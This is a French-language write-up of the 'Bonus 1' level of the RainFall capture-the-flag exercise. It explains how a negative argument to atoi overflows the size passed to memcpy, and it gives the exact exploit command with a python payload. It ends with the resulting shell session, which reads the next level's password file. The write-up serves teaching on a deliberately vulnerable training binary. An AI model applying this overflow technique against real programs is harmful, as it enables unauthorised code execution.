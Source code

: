 # Bonus 1
On ouvre le binaire avec cuter, et on y vois un `/bin/sh` on va devoir essayer de le lancer. le programme contiens deux condition imbriquer la premier check que le premier argument soit inférieur a 10, la seconde qui execute le `/bin/sh` et qui demande que le premier argument soit égale a  `0x574f4c46` (1464814662),  la seule faille présente c'est le `memcpy` en effet le premier argument va être multiplier par 4 avant d'être utiliser en tant que size de memcpy après être passer dans la premiere condition. Puisque le premier argument est passer dans un `atoi` qui créera un int, on peut peut donc luis passer un nombre négatif pour que une fois passer dans le paramètre du `memcpy` qui le mutiplira par 4 le résultat nous donne 44. Donc pour tester ca il faut tester les dépassement d'int min. On crée donc un petit code pour tester comment tout ca ce comporte :
```c
#include  <libc.h>

int  main(int  ac,  char  **av) {
	int  a  =  atoi(av[1]);
	printf("%d\n",  a);
	return  0;
}
```
ce qui nous donne : 
```
➜  bonus1 git:(master) ✗ gcc source.c && ./a.out -2147483648 
-2147483648
➜  bonus1 git:(master) ✗ gcc source.c && ./a.out -2147483649 
2147483647
```
on voit donc que une fois que l'int min est dépasser celui-ci boucle vers int max  donc il faut donc faire : 

$$res=\frac{intMin * 2}{4} - \frac{44}{4}$$

```
(4294967295 / 4) - (44 / 4) = 1073741812
```
Nous pouvons donc passer en second paramètre 40 octets suivi de la valeur à assigner à la variable (`0x574f4c46`).
ca nous donne donc : 
```
bonus1@RainFall:~$ ./bonus1 -1073741812 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```
